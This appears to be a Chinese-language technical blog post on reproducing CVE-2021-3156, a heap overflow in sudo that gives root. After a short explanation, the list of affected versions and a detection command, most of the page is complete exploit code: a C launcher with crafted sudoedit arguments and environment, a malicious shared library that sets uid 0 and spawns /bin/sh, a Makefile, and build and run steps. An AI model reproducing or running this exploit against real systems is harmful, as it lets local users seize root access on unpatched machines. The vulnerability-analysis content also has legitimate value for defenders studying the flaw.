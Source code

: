 
# [](#cve-2021-3156-sudo-%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)CVE-2021-3156 sudo 提权漏洞复现

## [](#1-%E6%BC%8F%E6%B4%9E%E4%BB%8B%E7%BB%8D)1 漏洞介绍

### [](#11-%E5%8E%9F%E7%90%86)1.1 原理

一个类 Unix 操作系统在命令参数中转义反斜杠时存在基于堆的缓冲区溢出漏洞。

当 sudo 通过 -s 或 -i 命令行选项在 shell 模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 -s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。只要存在 sudoers 文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用 sudo 获得系统 root 权限。

### [](#12-%E5%BD%B1%E5%93%8D%E7%89%88%E6%9C%AC)1.2 影响版本

-   Sudo 1.8.2 - 1.8.31p2
-   Sudo 1.9.0 - 1.9.5p1

## [](#2-%E5%A4%8D%E7%8E%B0)2 复现

### [](#21-%E5%BF%AB%E9%80%9F%E5%88%A4%E6%96%AD%E6%BC%8F%E6%B4%9E%E6%96%B9%E6%B3%95)2.1 快速判断漏洞方法

以非 root 用户登录系统，并使用命令 `sudoedit -s /`

-   如果响应一个以 `sudoedit:` 开头的报错，那么表明存在漏洞。
-   如果响应一个以 `usage:` 开头的报错，那么表明补丁已经生效。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223315.png-water_print](assets/1699410148-7c65faceaac7c2b15e9db9b8435cc018.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223315.png-water_print")

### [](#22-%E7%BC%96%E8%AF%91%E8%BF%90%E8%A1%8C)2.2 编译运行

一共三个文件：

1.  hax.c

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>51<br>``` | ```c<br>// Tested on:<br>// Ubunutu 20.0.4.1 LTS<br>// Sudo version 1.8.31<br>// Sudoers policy plugin version 1.8.31<br>// Sudoers file grammar version 46<br>// Sudoers I/O plugin version 1.8.31<br><br><br>#include <stdio.h><br>#include <string.h><br>#include <stdlib.h><br>#include <stdint.h><br>#include <unistd.h><br>#include <ctype.h><br><br>#define SUDOEDIT_PATH "/usr/bin/sudoedit"<br><br>int main(int argc, char *argv[]) {<br>	// CTF quality exploit below.<br>	char *s_argv[]={<br>		"sudoedit",<br>		"-u", "root", "-s",<br>		"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\",<br>		"\\",<br>		"BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB123456\\",<br>		NULL<br>	};<br><br>	char *s_envp[]={<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\", "\\",<br>		"\\", "\\", "\\", "\\", "\\", "\\", "\\",  <br>		"X/P0P_SH3LLZ_", "\\",<br>		"LC_MESSAGES=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",<br>		"LC_ALL=C.UTF-8@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",<br>		"LC_CTYPE=C.UTF-8@AAAAAAAAAAAAAA",<br>		NULL<br>	};<br><br>	printf("**** CVE-2021-3156 PoC\n");<br><br>	execve(SUDOEDIT_PATH, s_argv, s_envp);<br><br>	return 0;<br>}<br>``` |

2.  lib.c

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```c<br>#include <unistd.h><br>#include <stdio.h><br>#include <stdlib.h><br>#include <string.h><br> <br>static void __attribute__ ((constructor)) _init(void);<br> <br>static void _init(void) {<br>	printf("[+] bl1ng bl1ng! We got it!\n");<br>	setuid(0); seteuid(0); setgid(0); setegid(0);<br>	static char *a_argv[] = { "sh", NULL };<br>	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };<br>	execv("/bin/sh", a_argv);<br>}<br>``` |

3.  Makefile：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```makefile<br>all:<br>	rm -rf libnss_X<br>	mkdir libnss_X<br>	gcc -o sudo-hax-me-a-sandwich hax.c<br>	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c<br>clean:<br>	rm -rf libnss_X sudo-hax-me-a-sandwich<br>``` |

编译：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```bash<br>tar -zxvf CVE-2021-3156.tar.gz<br>cd CVE-2021-3156<br>make<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223453.png-water_print](assets/1699410148-c4ea4c9e3cbe3ae67729e4891d50c27b.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130223453.png-water_print")

直接执行：`./sudo-hax-me-a-sandwich` 即可。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130230253.png-water_print](assets/1699410148-d8d39b20920ef2403e3dcac07966c9f3.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210130230253.png-water_print")
